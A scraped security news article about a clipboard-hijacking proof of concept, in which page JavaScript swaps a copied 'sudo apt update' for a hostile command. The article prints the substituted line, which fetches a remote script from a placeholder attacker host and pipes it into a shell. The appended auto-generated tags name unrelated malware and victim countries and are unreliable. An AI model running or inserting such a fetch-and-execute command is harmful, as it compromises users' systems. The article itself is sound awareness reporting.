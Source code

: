 # Don't copy-paste commands from webpages — you can get hacked
### Programmers, sysadmins, security researchers, and tech hobbyists copying-pasting commands from web pages into a console or terminal risk having their system compromised. Wizer's Gabriel Friedlander demonstrates an obvious, simple yet stunning trick that'll make you think twice before copying-pasting text from web pages.

## Information:
+ Source: Bleeping Computer
+ Link: https://www.bleepingcomputer.com/news/security/dont-copy-paste-commands-from-webpages-you-can-get-hacked/
+ Date: 2022-01-03T08:00:00-05:00
+ Author: Ax Sharma


## Article:
![Article Image](https://www.bleepstatic.com/content/hl-images/2021/11/01/source-code.jpg)

![code](https://www.bleepstatic.com/content/hl-images/2021/11/01/source-code.jpg)


Programmers, sysadmins, security researchers, and tech hobbyists copying-pasting commands from web pages into a console or terminal are warned they risk having their system compromised.


A technologist demonstrates a simple trick that'll make you think twice before copying and pasting text from web pages.


Backdoor on your clipboard?
---------------------------


Recently, Gabriel Friedlander, founder of security awareness training platform Wizer demonstrated an obvious yet surprising hack that'll make you cautious of copying-pasting commands from web pages.


It isn't unusual for novice and skilled developers alike to copy commonly used commands from a webpage (ahem, StackOverflow) and paste them into their applications, a Windows command prompt or a Linux terminal.


But Friedlander warns a webpage could be covertly replacing the contents of what goes on your clipboard, and what actually ends up being copied to your clipboard would be vastly different from what you had intended to copy.


Worse, without the necessary due diligence, the developer may only realize their mistake after pasting the text, at which point it may be too late.


In a simple proof of concept (PoC) published on his blog, Friedlander asks readers to [copy a simple command](https://www.wizer-training.com/blog/copy-paste) that most sysadmins and developers would be familiar with:



![PoC command to be copy-pasted](https://www.bleepstatic.com/images/news/u/1164866/2022/January-2022/copy-paste-js-warning/poc-demo-copy-paste.jpeg)**Friedlander's HTML page with a simple command you can copy to clipboard**
Now, paste what you copied from Friedlander's blog into a text box or Notepad, and the result is likely to leave you surprised:


curl http://attacker-domain:8000/shell.sh | sh  

 
Not only do you get a completely different command present on your clipboard, but to make matters worse, it has a newline (or return) character at the end of it. 


This means the above example would execute as soon as it's pasted directly into a Linux terminal.


Those pasting the text may have been under the impression they were copying the familiar, innocuous command *sudo apt update*that is used to fetch updated information on software installed on your system.


But that's not quite what happened.


What causes this?
-----------------


The magic is in the JavaScript code hidden behind the PoC HTML page setup by Friedlander.


As soon as you copy the "*sudo apt update"*text contained in an HTML element, the code snippet, shown below runs. 


What happens afterward is a JavaScript '[event listener](https://www.w3schools.com/js/js_htmldom_eventlistener.asp)' capturing the copy event and replacing the clipboard data with Friedlander's malicious test code:



![PoC JavaScript code](https://www.bleepstatic.com/images/news/u/1164866/2022/January-2022/copy-paste-js-warning/poc-code-js.jpg)**PoC JavaScript code that replaces clipboard contents**
Note, event listeners have a variety of legitimate use-cases in JavaScript but this is just one example of how they could be misused.


"This is why you should NEVER copy paste commands directly into your terminal," warns Friedlander.


"You think you are copying one thing, but it’s replaced with something else, like malicious code. All it takes is a single line of code injected into the code you copied to create a backdoor to your app."


"This attack is very simple but also very harmful."


A simple, but nonetheless, an important lesson in everyday security. 





## Tags:

#### Action:
[[action.malware.name=at]] [[action.malware.name=Elise]] [[action.malware.name=Net]]

#### Location:
[[victim.country.name=Mali]] [[victim.continent.name=Africa]] [[victim.city.name=Dili]] [[victim.country.name=East Timor]] [[victim.continent.name=Asia]] [[victim.city.name=]] [[victim.country.name=Haiti]] [[victim.continent.name=North and Central America]]

### Autogenerated Tags:
[[Friedlander]] [[Javascript]] [[Html]] [[Bleeping Computer]]
#### urls
http://attacker-domain:8000/shell.sh

